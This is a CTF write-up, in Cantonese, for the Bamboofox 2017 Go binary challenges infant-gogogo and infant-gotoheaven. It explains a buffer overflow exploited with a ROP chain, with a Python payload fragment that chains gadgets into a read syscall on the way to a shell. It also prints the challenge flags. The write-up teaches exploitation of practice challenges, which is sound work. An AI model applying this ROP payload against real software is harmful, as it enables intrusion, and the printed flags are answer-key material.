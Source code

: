 # Bamboofox 2017 infant-gogogo & infant-gotoheaven


兩條基本嘅buffer overflow with ROP不過係用golang compile, 算係1 set 向Seccon 2017 babystack致敬嘅題目

由於兩個都係static linked, 所以乜gadget都有,例如syscall, 只要跟住syscall table 汁藥就可以get shell

不過要留意好多gadget 都會對其他register 有operation 

例如 infant-gogogo :

```C
#0x0000000000413d6d : pop rdx ; xor ah, byte ptr [rsi - 9] ; ret
#0x0000000000408437 : pop rsi ; dec dword ptr [rax + 0x21] ; ret
```
所以行呢句gadget 嘅時候要保證related register 唔係=0x0 

例如:
```C
#0x0000000000413d6d : pop rdx ; xor ah, byte ptr [rsi - 9] ; ret
```

就要保證RSI 唔係等於0x0 , 

所以就要去bss 段求其塞d valid memory address去個d 相關register:

For example:

```python
payload="A"*256
#0x0000000000413d6d : pop rdx ; xor ah, byte ptr [rsi - 9] ; ret
#0x0000000000408437 : pop rsi ; dec dword ptr [rax + 0x21] ; ret
buf=0x0052e2a0
rsi=0x0000000000408437
rdx=0x0000000000413d6d
#call read rdi :fd=0 
#rsi:buf 
#rdx:size 
#rax:0x00
payload+=p64(pop_rax_ret)+p64(buf+0x200)
payload+=p64(pop_rdi)+p64(0x0)+p64(rsi)+p64(buf+0x300)
payload+=p64(rdx)+p64(0x8)+p64(pop_rax_ret)+p64(0)+p64(syscall)
```

# Solution :

[infant-gogogo](infant-gogogo.py)


[infant-gotoheaven](infant-gotoheaven.py)


# Flag

```
infant-gogogo: BAMBOOFOX{G0LaNg_iS_aw3s0m3ls!}

infant-gotoheaven : BAMBOOFOX{GOLANG_PWnnnnnnnIng_iS_r3A11Y_W3iRdO_O}

```
# Remark
如果ida pro F5唔到,可以試下 Option->Compiler sizeof(int)=4


# Reference

1. http://shift-crops.hatenablog.com/entry/2017/12/09/200440

2. https://bbs.pediy.com/thread-223281.htm




